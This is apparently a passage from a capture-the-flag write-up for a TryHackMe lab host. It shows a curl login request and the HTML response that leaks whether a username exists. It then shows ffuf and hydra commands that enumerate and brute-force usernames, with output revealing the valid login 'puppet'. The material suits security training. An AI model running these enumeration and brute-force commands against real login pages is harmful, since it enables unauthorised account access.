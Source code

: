 `curl --path-as-is -ikL -X 'POST' --data-binary $'username=admin&password=admin&submit=' $'http://nano.cherryontop.thm/login.php' -b $'PHPSESSID=n5clq5n0uo5dmt2jh4sr06suif'`

```bash
[REDACTED] - MORE
                
                <h1>Admin Portal</h1>
                                    <div>This user doesn't exist</div>
                                <form method="post">
                    <div>
                        <label for="username">Username:</label>
                        <input type="text" id="username" name="username" required>
                    </div>
                    <div>
                        <label for="password">Password:</label>
                        <input type="password" id="password" name="password" required>
                    </div>
                    <div>
                        <button type="submit" name="submit" style="padding:5px; margin-top: 5px;">Login</button>
                    </div>
                    
[REDACTED] - MORE
```

> **Login Username Brute Force Phase**
> 

`ffuf -u 'http://nano.cherryontop.thm/login.php' -X POST -d 'username=FUZZ&password=admin&submit=' -H 'Content-Type: application/x-www-form-urlencoded' -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt -mc all -t 100 -fr "This user doesn't exist"`

```bash
puppet                  [Status: 200, Size: 2370, Words: 733, Lines: 61, Duration: 1809ms]
```

`hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -p admin nano.cherryontop.thm http-post-form "/login.php:username=^USER^&password=^PASS^&submit=:This user doesn't exist" -t 64 -F`

```bash
[80][http-post-form] host: nano.cherryontop.thm   login: puppet   password: admin
```

> **Login Logic Discovery**
> 

![image.png](image%202.png)

